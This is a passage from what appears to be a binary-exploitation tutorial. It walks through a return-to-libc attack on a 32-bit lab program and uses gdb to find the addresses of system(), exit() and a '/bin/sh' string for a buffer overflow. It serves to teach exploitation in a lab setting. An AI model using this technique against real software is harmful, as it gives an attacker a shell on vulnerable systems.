 So we need to fill the buffer with 33 bytes, and then 4 bytes to overwrite the saved frame pointer (remember that we are exploiting a 32-bit binary which has 4 byte addresses).

To find the address of `system()` you look at its disassembly using `disas system` in gdb, or more simply do:

```bash
(gdb) print system
$1 = {<text variable, no debug info>} 0xf7e464d0 <system>
```

> You need to run the program in gdb first so that it will load the shared library.

Then do the same for `exit()`:

```bash
(gdb) print exit
$2 = {<text variable, no debug info>} 0xf7e38500 <exit>
```

The address contains a null byte. We can't use it, but looking at the code around exit, we can use the address right before since it's just a nop instruction:

```bash
(gdb) x/5i *exit-1
   0xf7e384ff:  nop
   0xf7e38500 <exit>:   endbr32
   0xf7e38504 <exit+4>: push   %esi
   0xf7e38505 <exit+5>: pop    %esi
```

Finally, we need the address of a '/bin/sh' string. We can be put the string in an environment variable:

```bash
$ env - MYSH=/bin/sh gdb r2l1
(gdb) unset env LINES
(gdb) unset env COLUMNS
(gdb) start
...
(gdb) x/2s *(char **)environ
0xffffdf98:     "PWD=/my/current/working/directory"
0xffffdfbd:     "MYSH=/bin/sh"
```

> libc actually contains a "/bin/sh" string, so we don't really need to supply the environment variable. You can verify this by using `strings /usr/lib/libc.so.6` from the terminal. You can find the address of this string in gdb by using `find &`*function*`,+9999999,"/bin/sh"`, where *function* is a libc function (e.g. `exit()`, `system()` or `printf()`).

> TIP: The enviroment contains a `SHELL` variable, but this is of course unavailable when we run with an empty environment, but it may be useful to know about for another time.

Again, we need to add 5 bytes to the address to take us past the "MYSH=" part of the string. Now we got:

- 0xf7e464d0 <system>
- 0xf7e384ff <exit>
- 0xffffdfc2 "/bin/sh"
